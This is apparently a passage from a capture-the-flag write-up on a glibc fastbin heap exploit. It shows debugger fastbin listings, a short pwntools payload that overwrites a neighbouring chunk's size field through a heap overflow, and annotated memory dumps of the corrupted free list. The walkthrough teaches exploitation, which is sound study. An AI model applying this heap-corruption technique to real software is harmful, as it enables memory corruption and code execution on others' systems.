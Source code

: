 ```
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x563c6f84c070, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x563c6f84c0d0, size=0x90, flags=PREV_INUSE) [incorrect fastbin_index] 
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```
Now we have our chunk 5 in the fastbin, we still have to correct the issue with the chunk size. The heap allocator will complain and not give us that chunk if the size does not match the correct bin.

We then use the heap overflow with chunk 4 to change chunk 5's size to 0x31 so that it becomes a valid chunk. The code below is used for chunk 4's data.

```python=
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x31)
```
The memeory now looks like:
```
0x55f1181f6000: 0x0000000000000000      0x0000000000000031    <--- chunk 1
0x55f1181f6010: 0x0000000000000000      0x0000000000000000
0x55f1181f6020: 0x0000000000000000      0x0000000000000000
0x55f1181f6030: 0x0000000000000000      0x0000000000000031    <--- chunk 2
0x55f1181f6040: 0x0000000000000000      0x0000000000000000
0x55f1181f6050: 0x0000000000000000      0x0000000000000000
0x55f1181f6060: 0x0000000000000000      0x0000000000000031    <--- chunk 3
0x55f1181f6070: 0x000055f1181f60c0      0x0000000000000000       |- FD points to chunk 5 instead of chunk 2
0x55f1181f6080: 0x0000000000000000      0x0000000000000000
0x55f1181f6090: 0x0000000000000000      0x0000000000000031    <--- chunk 4
0x55f1181f60a0: 0x0000000000000000      0x0000000000000000
0x55f1181f60b0: 0x0000000000000000      0x0000000000000000
0x55f1181f60c0: 0x0000000000000000      0x0000000000000031    <--- chunk 5 (size is now 0x31 instead of 0x91)
0x55f1181f60d0: 0x0000000000000000      0x0000000000000000
0x55f1181f60e0: 0x0000000000000000      0x0000000000000000
0x55f1181f60f0: 0x0000000000000000      0x0000000000000000
0x55f1181f6100: 0x0000000000000000      0x0000000000000000
0x55f1181f6110: 0x0000000000000000      0x0000000000000000
0x55f1181f6120: 0x0000000000000000      0x0000000000000000
0x55f1181f6130: 0x0000000000000000      0x0000000000000000
0x55f1181f6140: 0x0000000000000000      0x0000000000000000
0x55f1181f6150: 0x0000000000000000      0x0000000000000031    <--- chunk 6
0x55f1181f6160: 0x0000000000000000      0x0000000000000000
0x55f1181f6170: 0x0000000000000000      0x0000000000000000
0x55f1181f6180: 0x0000000000000000      0x0000000000020e81    <--- top chunk/wilderness
```

```
────── Fastbins for arena 0x7f7093ce6b20 ─────────────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x55f1181f6070, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x55f1181f60d0, size=0x30, flags=PREV_INUSE) 
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```
